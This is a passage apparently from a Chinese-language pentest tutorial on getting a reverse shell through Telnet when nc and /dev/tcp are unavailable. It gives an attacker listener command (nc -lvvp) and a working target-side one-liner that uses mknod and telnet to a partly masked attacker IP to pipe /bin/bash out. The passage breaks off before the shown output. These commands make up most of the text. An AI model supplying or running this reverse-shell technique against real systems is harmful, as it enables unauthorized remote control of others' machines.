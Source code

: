 ![image-20210505233459540](images/image-20210505233459540.png)

## 利用Telnet反弹shell

当nc和/dev/tcp不可用，且目标主机和攻击机上支持Telnet服务时，我们可以使用Telnet反弹shell。

### 方法一

**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
mknod a p; telnet 47.xxx.xxx.72 2333 0<a | /bin/bash 1>a
```

执行效果如下：
